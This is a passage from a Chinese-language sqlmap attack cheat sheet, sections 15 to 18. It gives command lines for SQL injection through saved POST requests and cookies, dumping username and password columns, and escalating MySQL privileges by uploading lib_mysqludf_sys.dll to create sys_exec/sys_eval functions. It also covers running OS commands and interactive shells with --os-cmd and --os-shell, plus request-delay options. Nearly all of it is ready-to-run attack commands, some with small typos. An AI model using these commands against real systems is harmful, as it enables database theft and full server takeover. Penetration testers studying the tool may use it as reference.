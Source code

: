     （5）把这个post请求复制为txt, 我这命名为post.txt 然后把它放至sqlmap目录下
    
    （6）运行sqlmap并使用如下命令：
    
    ./sqlmap.py -r post.txt -p tfUPass
    
    ### 15.sqlmap cookies注入
    
    sqlmap.py -u "http://127.0.0.1/base.PHP"–cookies "id=1"  –dbs –level 2
    
    默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie里面的参数，当>=3的时候将检查User-agent和Referer。可以通过burpsuite等工具获取当前的cookie值，然后进行注入：
    
    sqlmap.py -u 注入点URL --cookie"id=xx" --level 3
    
    sqlmap.py -u url --cookie "id=xx"--level 3 --tables(猜表名)
    
    sqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 --coiumns
    
    sqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 -C username，password --dump
    
        

### 16.mysql提权

    （1）连接mysql数据打开一个交互shell:
    
    sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --sql-shell
    
    select @@version;
    
    select @@plugin_dir;
    
    d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\
    
    （2）利用sqlmap上传lib_mysqludf_sys到MySQL插件目录:
    
    sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --file-write=d:/tmp/lib_mysqludf_sys.dll--file-dest=d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\lib_mysqludf_sys.dll
    
    CREATE FUNCTION sys_exec RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'
    
    CREATE FUNCTION sys_eval RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'
    
    select sys_eval('ver'); 
    
        

### 17.执行shell命令

    sqlmap.py -u "url" –os-cmd="netuser" /*执行net user命令*/
    
    sqlmap.py -u "url" –os-shell /*系统交互的shell*/
    
        

### 18.延时注入

    sqlmap –dbs -u"url" –delay 0.5 /*延时0.5秒*/
    
    sqlmap –dbs -u"url" –safe-freq /*请求2次*/
    
        
